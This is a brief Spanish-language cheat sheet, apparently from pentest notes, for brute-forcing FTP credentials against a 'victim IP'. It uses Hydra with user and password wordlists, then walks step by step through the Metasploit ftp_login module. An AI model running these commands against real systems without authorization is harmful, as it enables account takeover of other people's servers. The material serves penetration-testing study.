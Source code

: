 # HYDRA
## Conociendo usuario
```bash
hydra -l <"Usuario"> -P <"Diccionario de contraseñas"> ftp://<"IP VICTIMA">
```

## Usuario Desconocido
```bash
hydra -L <"Diccionario de usuarios"> -P <"Diccionario de contraseñas"> ftp://<"IP VICTIMA">
```

# Metasploit

```bash
search ftp_login
```

```bash
use 0
```

```bash
set RHOST <"IP Victima">
```

## Conociendo Usuario

```bash
set USERNAME <"Usuario">
```
## Desconociendo Usuario

```bash
set USERNAME_FILE <"Diccionario de Usuarios">
```


```bash
set PASS_FILE <"Diccionario de Contraseñas">
```

```bash
set VERBOSE false
```

```bash
run
```